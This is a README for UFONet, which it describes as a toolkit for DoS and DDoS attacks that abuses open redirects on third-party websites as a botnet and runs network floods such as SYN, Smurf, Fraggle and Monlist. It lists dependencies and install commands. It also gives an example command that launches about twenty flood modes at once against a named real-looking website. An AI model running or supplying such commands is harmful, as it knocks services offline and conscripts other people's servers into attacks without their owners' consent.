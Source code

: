  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-multiverse-welcome_small.png "UFONet Welcome")

----------
Full Version (updated!) online: + Website : [ufonet.03c8.net](https://ufonet.03c8.net)
----------

#### Description:

  UFONet - is a free software, P2P and cryptographic -disruptive toolkit- that allows to perform DoS and DDoS attacks; 
on the Layer 7 (APP/HTTP) through the exploitation of Open Redirect vectors on third-party websites to act as a botnet 
and on the Layer3 (Network) abusing the protocol.

  It also works as an encrypted DarkNET to publish and receive content by creating a global client/server network based 
on a direct-connect P2P architecture.

  See these links for more info:

   - [FAQ:](https://ufonet.03c8.net/FAQ.html)

   - [CWE-601:Open Redirect:](https://cwe.mitre.org/data/definitions/601.html)

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-schema.png "UFONet Schema")

   - [LOIC:     https://en.wikipedia.org/wiki/Low_Orbit_Ion_Cannon

   - [LORIS: 
     https://en.wikipedia.org/wiki/Slowloris_(software)

   - [UFOSYN: 
     https://en.wikipedia.org/wiki/SYN_flood

   - [FRAGGLE: 
     https://en.wikipedia.org/wiki/Fraggle_attack

   - [UFORST: 
     https://ddos-guard.net/en/terminology/attack_type/rst-or-fin-flood

   - [SPRAY: 
     https://en.wikipedia.org/wiki/DRDOS

   - [SMURF: 
     https://en.wikipedia.org/wiki/Smurf_attack

   - [XMAS: (https://en.wikipedia.org/wiki/Christmas_tree_packet)

   - [DROPER:](https://en.wikipedia.org/wiki/IP_fragmentation_attack)

   - [SNIPER: ](https://www.imperva.com/learn/application-security/snmp-reflection/)

   - [TACHYON:[(     https://www.us-cert.gov/ncas/alerts/TA13-088A)

   - [PINGER:](     https://www.cloudflare.com/learning/ddos/ping-icmp-flood-ddos-attack/)

   - [MONLIST:](     https://www.us-cert.gov/ncas/alerts/TA14-013A)

   - [UFOACK: ](     https://www.f5.com/services/resources/glossary/push-and-ack-flood)

   - [OVERLAP: ](     https://cyberhoot.com/cybrary/fragment-overlap-attack/)

   - [UFOUDP: ](     https://en.wikipedia.org/wiki/UDP_flood_attack)

   - [NUKE:](https://dl.packetstormsecurity.net/papers/general/tcp-starvation.pdf)

----------

#### Installing:

  UFONet runs on many platforms. It requires Python (>=3) and the following libraries:

       python3-pycurl - Python bindings to libcurl (Python 3)
       python3-geoip - Python3 bindings for the GeoIP IP-to-country resolver library
       libgeoip-dev - Development files for the GeoIP library
       libgeoip1 - non-DNS IP-to-country resolver library
       python3-whois - Python module for retrieving WHOIS information - Python 3
       python3-crypto - cryptographic algorithms and protocols for Python 3
       python3-requests - elegant and simple HTTP library for Python3, built for human beings
       python3-scapy - Packet crafting/sniffing/manipulation/visualization security tool

  You can automatically get all required libraries using (as root):

       python3 setup.py install

  For manual installation, on Debian-based systems (ex: Ubuntu), run:

       sudo apt-get install python3-pycurl python3-geoip python3-whois python3-crypto python3-requests python3-scapy libgeoip1 libgeoip-dev

  On other systems such as: Kali, Ubuntu, ArchLinux, ParrotSec, Fedora, etc... also run:

       pip3 install GeoIP
       pip3 install python-geoip
       pip3 install pygeoip
       pip3 install requests
       pip3 install pycrypto
       pip3 install pycurl
       pip3 install whois
       pip3 install scapy-python3

####  Source libs:

   * Python: https://www.python.org/downloads/
   * PyCurl: http://pycurl.sourceforge.net/
   * GeoIP: https://pypi.python.org/pypi/GeoIP/
   * Python-geoip: https://pypi.org/project/python-geoip/
   * Pygeoip: https://pypi.org/project/pygeoip/
   * Whois: https://pypi.python.org/pypi/whois
   * PyCrypto: https://pypi.python.org/pypi/pycrypto
   * PyRequests: https://pypi.python.org/pypi/requests
   * Scapy-Python3: https://pypi.org/project/scapy-python3/
   * Leaflet: http://leafletjs.com/ (provided)

----------

####  License:

  UFONet is released under the GPLv3. You can find the full license text
in the [LICENSE](./docs/LICENSE) file.

----------

####  Example:
~~~
./ufonet -a http://www.kolaybar.com -r "100" --threads "100" --loic "1000" --loris "1000" --ufosyn "1000" --spray "1000" --smurf "1000" --xmas "1000" --nuke "1000" --tachyon "1000" --monlist "1000" --fraggle "1000" --sniper "1000" --ufoack "1000" --uforst "1000" --droper "1000" --overlap "1000" --pinger "1000" --ufoudp "1000"
~~~
----------
####  Screenshots (current version!):

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-shell-1.png "UFONet Shell Version")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-shell-2.png "UFONet Shell Board")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-shell-3.png "UFONet GUI Shell")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-main_small.png "UFONet GUI Main Panel")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-help_small.png "UFONet GUI Help")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-botnet.png "UFONet GUI Botnet")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-stats.png "UFONet GUI General Stats")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-multiverse-ranking_small.png "UFONet GUI Ranking")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-attack.png "UFONet GUI Attack")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-board_small.png "UFONet GUI Board")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-kraken-wargames_small.png "UFONet GUI Wargames")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-gui3_small.png "UFONet GeoMap /deploying/")

  ![UFONet](https://ufonet.03c8.net/ufonet/ufonet-gui4_small.png "UFONet GeoMap /attacking/")

